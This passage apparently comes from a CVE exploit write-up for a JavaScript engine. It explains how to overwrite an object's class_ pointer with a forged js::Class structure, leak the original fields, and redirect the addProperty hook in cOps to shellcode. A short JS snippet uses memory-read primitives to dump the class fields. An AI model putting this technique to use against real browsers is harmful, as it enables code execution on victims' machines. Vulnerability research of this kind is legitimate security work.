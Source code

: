 ![](/assets/img/cve_writeup/group_diagram.png)

We can overwrite the class_ pointer with an address that is chosen by us. At this address we forge the entire `js::Class` structure. As for the fields we can these leak out from the original Class object. Here we just need to make sure that `cOps` is pointing to a table of function pointers that we had written in the memory. In this exploit I will be overwriting the `addProperty` field with the pointer to the shellcode

```js

grp_ptr = read(aa)
jsClass = read_n(grp_ptr,new data("0x30"));

name = jsClass.slice(0,8)
flags = jsClass.slice(8,16)
cOps = jsClass.slice(16,24)
spec = jsClass.slice(24,32)
ext = jsClass.slice(40,48)
oOps = jsClass.slice(56,64)

```
